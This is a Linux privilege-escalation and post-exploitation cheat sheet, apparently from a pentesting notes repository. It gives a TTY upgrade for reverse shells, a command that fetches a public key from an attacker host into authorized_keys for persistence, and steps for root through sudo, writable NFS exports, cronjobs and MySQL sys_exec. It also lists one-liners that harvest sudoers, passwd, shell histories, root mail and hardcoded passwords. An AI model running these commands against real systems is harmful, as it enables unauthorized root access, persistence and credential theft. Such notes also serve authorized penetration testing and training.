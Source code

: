 # Linux Privilege Escalation

**Post exploitation**

Get a TTY shell after a reverse shell connection

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

Set PATH TERM and SHELL if missing:

```text
$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
```

Add public key to authorized keys:

```text
$ echo $(wget https://ATTACKER_IP/.ssh/id_rsa.pub) >> ~/.ssh/authorized_keys
```

### Linux Privesc

Things to look: Miss-configured services \(cronjobs\), incorrect file permissions \(exportfs, sudo\), miss-configured environment \($PATH\), binary with SUID bit, software or OS with known vulnerabilities.

First try simple sudo:

```text
$ sudo su -
```

What can we run with sudo?

```text
$ sudo -l
```

Try su as all users and the username as password

What services are running as root?:

```text
$ ps aux | grep root
```

Look for vulnerable/privileged components such as: mysql, sudo, udev, python

If **/etc/exports** if writable, you can add an NFS entry or change and existing entry adding the **no\_root\_squash** flag to a root directory, put a binary with SUID bit on, and get root.

If there is a **cronjob** that runs as run but it has incorrect file permissions, you can change it to run your SUID binary and get a shell.

The following command will list processes running by root, permissions and NFS exports.

```text
$ echo 'services running as root'; ps aux | grep root;  echo 'permissions'; ps aux | awk '{print $11}'|xargs -r ls -la 2>/dev/null |awk '!x[$0]++'; echo 'nfs info'; ls -la /etc/exports 2>/dev/null; cat /etc/exports 2>/dev/null
```

Use netstat to find other machines connected

```text
$ netstat -ano
```

Command to skip ignored lines in config files

```text
$ alias nonempty="egrep -v '^[ \t]*#|^$'"
```

If Mysql is running as root, you can run commands using **sys\_exec\(\)**. For instance, to add user to sudoers:

```text
sys_exec('usermod -a -G admin username')
```

More about mysql:

```text
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
```

Find linux distribution & version

```text
$ cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;
```

Architecture

```text
$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release
```

Environment variables

```text
$ cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set
```

Find printers

```text
$ lpstat -a
```

Find apps installed;

```text
$ ls -alh /usr/bin/; ls -alh /sbin/; dpkg -l; rpm -qa; ls -alh /var/cache/apt/archivesO; ls -alh /var/cache/yum/*;
```

Find writable configuration files

```text
$ find /etc/ -writable -type f 2>/dev/null
```

Miss-configured services

```text
$ cat /etc/syslog.conf; cat /etc/chttp.conf; cat /etc/lighttpd.conf; cat /etc/cups/cupsd.conf; cat /etc/inetd.conf; cat /etc/apache2/apache2.conf; cat /etc/my.conf; cat /etc/httpd/conf/httpd.conf; cat /opt/lampp/etc/httpd.conf; ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
```

Scheduled jobs

```text
$ crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny
```

Grep hardcoded passwords

```text
$ grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```

if web server run in web root:

```text
$ grep "localhost" ./ -R
```

Network configuration

```text
$ /sbin/ifconfig -a; cat /etc/network/interfaces; cat /etc/sysconfig/network; cat /etc/resolv.conf; cat /etc/sysconfig/network; cat /etc/networks; iptables -L; hostname; dnsdomainname
```

List other users home directories

```text
$ ls -ahlR /root/; ls -ahlR /home/
```

User bash history

```text
$ cat ~/.bash_history; cat ~/.nano_history; cat ~/.atftp_history; cat ~/.mysql_history; cat ~/.php_history
```

User mails

```text
$ cat ~/.bashrc; cat ~/.profile; cat /var/mail/root; cat /var/spool/mail/root
```

Find interesting binaries

```text
$ find / -name wget; find / -name nc*; find / -name netcat*; find / -name tftp*; find / -name ftp
```

Mounted filesystems

```text
$ mount; df -h; cat /etc/fstab
```

Look for binaries with the SUID or GUID bits set.

```text
$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
$ find / -perm -1000 -type d 2>/dev/null
$ find / -perm -g=s -type f 2>/dev/null
```

Find other uses in the system

```text
 $id; who; w; last; cat /etc/passwd | cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l
```

